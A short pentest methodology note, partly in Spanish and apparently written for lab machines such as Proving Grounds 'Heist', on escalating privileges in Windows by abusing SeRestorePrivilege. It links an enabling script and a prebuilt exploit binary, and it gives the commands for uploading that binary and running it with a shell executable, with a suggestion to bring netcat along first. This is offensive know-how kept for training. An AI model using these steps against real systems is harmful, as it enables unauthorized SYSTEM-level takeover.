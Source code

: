 **Write access** control to any file on the system, regardless of the files ACL. You can **modify services**, DLL Hijacking, set **debugger** (Image File Execution Options)… A lot of options to escalate.

## DESCRIPTION

![[Pasted image 20230627163029.png]]

**!!NOTA IMPORTANTE!!** 

if ==SeRestorePrivilege== listed then

- Run [EnableSeRestorePrivilege.ps1](https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1) to enable this privilege to our PowerShell session. We now have write access to ==C:\Windows\System32==.
- Aquí esta el binario: https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe

#### Mas información
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md


## EXPLOITATION

1. Descargamos el binario: https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe

2. Lo transferimos al a maquina:

```
#Por ejemplo usando WinRM
upload /home/kali/pg/heist/privescalation/SeRestoreAbuse.exe
```

3. Ejecutamos:

Cuidado con el comando que ejecutamos, mejor crear una shell o subir un nc antes:

```
./SeRestoreAbuse.exe "C:\\programdata\shell.exe"
```

![[Pasted image 20230627164438.png]]
## MACHINES

* Hack The Box: 
* PG: Heist